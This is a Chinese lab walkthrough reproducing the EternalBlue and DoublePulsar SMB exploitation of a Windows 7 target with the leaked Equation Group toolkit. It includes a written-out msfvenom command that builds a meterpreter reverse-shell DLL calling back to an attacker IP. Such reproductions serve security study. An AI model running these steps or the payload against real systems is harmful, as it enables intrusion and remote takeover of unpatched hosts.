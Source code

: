 > 作者：边界安全
> [原文链接](https://mp.weixin.qq.com/s/RzGeOWdbvs-GOj6dAB9xgw##)

---

测试环境：

靶机：*windows7 64位旗舰版 **445 open***

攻击环境：
1. 下载并安装[python2.6](https://www.python.org/download/releases/2.6.6/)

2. 下载并安装[pywin32](https://sourceforge.net/projects/pywin32/files/pywin32/Build%20221/pywin32-221.win32-py2.6.exe/download)

3. 将C:\Python26添加到环境变量PATH中。

下载 EQGRP_Lost_in_Translation，找到\windows\fb.py。

fb.py有个地方需要修改一下：
![](https://raw.githubusercontent.com/5cr1pt/img4markdown/master/Windows_SMB%E8%BF%9C%E7%A8%8B%E6%BA%A2%E5%87%BA0day%E5%A4%8D%E7%8E%B0/08.jpg)

第26,27,28行注释掉
![](https://raw.githubusercontent.com/5cr1pt/img4markdown/master/Windows_SMB%E8%BF%9C%E7%A8%8B%E6%BA%A2%E5%87%BA0day%E5%A4%8D%E7%8E%B0/06.jpg)


还有第72行。

打开cmd切入windows目录。执行python fb.py
![](https://raw.githubusercontent.com/5cr1pt/img4markdown/master/Windows_SMB%E8%BF%9C%E7%A8%8B%E6%BA%A2%E5%87%BA0day%E5%A4%8D%E7%8E%B0/03.jpg)


按照他的要求输入[默认]参数。
![](https://raw.githubusercontent.com/5cr1pt/img4markdown/master/Windows_SMB%E8%BF%9C%E7%A8%8B%E6%BA%A2%E5%87%BA0day%E5%A4%8D%E7%8E%B0/09.jpg)

然后use Eternalblue，一路回车：
![](https://raw.githubusercontent.com/5cr1pt/img4markdown/master/Windows_SMB%E8%BF%9C%E7%A8%8B%E6%BA%A2%E5%87%BA0day%E5%A4%8D%E7%8E%B0/01.jpg)


注意的是在这里选择1：
![](https://raw.githubusercontent.com/5cr1pt/img4markdown/master/Windows_SMB%E8%BF%9C%E7%A8%8B%E6%BA%A2%E5%87%BA0day%E5%A4%8D%E7%8E%B0/04.jpg)


一路回车就可以看到succeeded了。

接着执行use Doublepulsar。
![](https://raw.githubusercontent.com/5cr1pt/img4markdown/master/Windows_SMB%E8%BF%9C%E7%A8%8B%E6%BA%A2%E5%87%BA0day%E5%A4%8D%E7%8E%B0/02.jpg)


根据实际情况选择64位还是32位。

然后进入关键步骤：
![](https://raw.githubusercontent.com/5cr1pt/img4markdown/master/Windows_SMB%E8%BF%9C%E7%A8%8B%E6%BA%A2%E5%87%BA0day%E5%A4%8D%E7%8E%B0/05.jpg)


选择运行dll文件，然后输入dll文件的路径，这个dll文件我是用msf生成的。

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.171 LPORT=6666 -f dll > msfx64.dll

如果是32位的就生成32位的，如果弄错了也没事，工具会利用失败，重来就可以了。

然后一路回车：
![](https://raw.githubusercontent.com/5cr1pt/img4markdown/master/Windows_SMB%E8%BF%9C%E7%A8%8B%E6%BA%A2%E5%87%BA0day%E5%A4%8D%E7%8E%B0/07.jpg)


这样子就是成功了。看看msf：
![](https://raw.githubusercontent.com/5cr1pt/img4markdown/master/Windows_SMB%E8%BF%9C%E7%A8%8B%E6%BA%A2%E5%87%BA0day%E5%A4%8D%E7%8E%B0/0.jpg)
